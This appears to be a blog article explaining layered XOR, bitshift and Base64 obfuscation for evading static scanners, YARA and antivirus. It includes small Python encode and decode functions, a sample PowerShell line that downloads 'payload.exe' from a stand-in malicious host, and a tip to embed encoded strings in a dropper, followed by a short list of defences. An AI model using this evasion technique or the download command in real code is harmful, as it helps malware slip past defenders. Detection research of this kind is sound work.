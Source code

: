# XOR is Weak? Think Again — Meet XORception

### Discover how layered XOR obfuscation using bitshifts, Base64, and dynamic logic turns simple encoding into a nightmare for static analysis tools.

## ✨ Introduction

In the cat-and-mouse game of cybersecurity, static analysis tools have long stood as the first line of defense against malware and reverse engineering. But what happens when adversaries weaponize simplicity, turning an elementary obfuscation technique like XOR into a layered fortress of logic gates and confusion? Welcome to the world of XORception.

> "Basic XOR obfuscation? That’s amateur hour. Let’s talk XORception — XOR within XOR, logic gates, and chaos theory."

This article breaks down how threat actors (or red teamers in simulation mode) can turn XOR into an obfuscation powerhouse by combining it with multiple techniques to bypass static scanners, YARA signatures, and even human analysts.

![XORception](https://github.com/user-attachments/assets/589ddf34-ddce-4905-adb4-f3fbecd06b60) <br/>

---

## 🔍 XOR Obfuscation 101

XOR (exclusive OR) is one of the most common and simple obfuscation techniques used in malware:

```python
# Basic XOR obfuscation
"""Returns XOR encoded string"""
def xor_encrypt(data, key):
    return ''.join(chr(ord(c) ^ key) for c in data)
```

Why it’s used:

* Fast and reversible
* Easy to implement in low-level code
* Modifies signature patterns to bypass string detection

**But it's also predictable.** Static analysis tools like CyberChef or even strings + grep combos can unravel single-layer XOR with ease.

---

## 🧩 Layering Obfuscation Like an OP Hacker

To truly confuse analysis tools and analysts, combine XOR with:

* **Bitwise Shifting** (`<<`, `>>`)
* **Base64 + ROT13 Chains**
* **Custom Encoding Tables**
* **Byte Injection & Reordering**
* **Runtime Key Generation**

### Example: Python Multi-Layer XOR Obfuscator

```python
import base64

def layered_obfuscate(data, key):
    # Step 1: XOR
    xored = ''.join(chr(ord(c) ^ key) for c in data)
    # Step 2: Bitshift + junk inject
    shifted = ''.join(chr(((ord(c) << 1) + 1) % 256) for c in xored)
    # Step 3: Base64 Encode
    return base64.b64encode(shifted.encode()).decode()
```

### Example: Corresponding Deobfuscator

```python
import base64

def layered_deobfuscate(encoded_data, key):
    # Step 1: Base64 decode
    decoded = base64.b64decode(encoded_data).decode()
    # Step 2: Reverse Bitshift + junk removal
    unshifted = ''.join(chr(((ord(c) - 1) >> 1) % 256) for c in decoded)
    # Step 3: XOR decryption
    return ''.join(chr(ord(c) ^ key) for c in unshifted)
```

Test Case:

```python
original = "powershell"
key = 23
obf = layered_obfuscate(original, key)
print("Obfuscated:", obf)
print("Deobfuscated:", layered_deobfuscate(obf, key))
```

---

## 🔒 Breaking Static Analysis Tools

Static analysis depends on:

* **Pattern Matching**
* **String Discovery**
* **Code Flow Prediction**

Layered XOR wrecks this by:

* **Encoding known patterns like `powershell`, `wget`, etc.**
* **Generating keys at runtime using system attributes (e.g., PID, time)**
* **Injecting junk operations that confuse decompilers (especially in PowerShell & Assembly)**

### IDA/Ghidra Demo

Take a payload string like:

```powershell
Invoke-WebRequest -Uri http://malicious.site -OutFile payload.exe
```

After encoding through multiple layers, the same string becomes garbage data until runtime deobfuscation. Tools like IDA or strings just see:

```powershell
"HkfjqJw9+Vt....QmI="
```

---

## 🧱 Bypassing YARA and AV Signatures

YARA rules often look for recognizable patterns. Obfuscated payloads using layered XOR techniques can evade them easily.

### Example:

```python
# Encode known suspicious term
original = "powershell"
encoded = layered_obfuscate(original, 23)
print(encoded)
```

Now you can drop this into a dropper that reconstructs the command only at execution.

To AV engines? It’s just a harmless string.

**Bonus:** Rotate keys for every obfuscation pass to make detection harder.

---

## ⚠️ Defenders, Don’t Sleep

While this sounds scary, defenders can fight back:

* **Entropy Analysis**: High entropy blocks may suggest encoding
* **Sandbox Detonation**: Observe behavior during runtime
* **Heuristic Analysis**: Look for dynamic string building, exec() usage, PowerShell spawning, etc.

Use tools like:

* `flare-floss`
* `de4dot`
* `IDA Pro + HexRays`
* `Box-js`
* Custom scripts for deobfuscation sequence bruteforce

---

## 📊 Conclusion

Obfuscation isn’t about hiding — it’s about **delaying** and **confusing**. XOR, while basic, becomes a devastating tool when you **layer it smartly**, add randomness, and combine it with logic operations.

> "XOR is the hacker’s duct tape — cheap, dirty, but when layered smartly, it's a whole fortress."

---

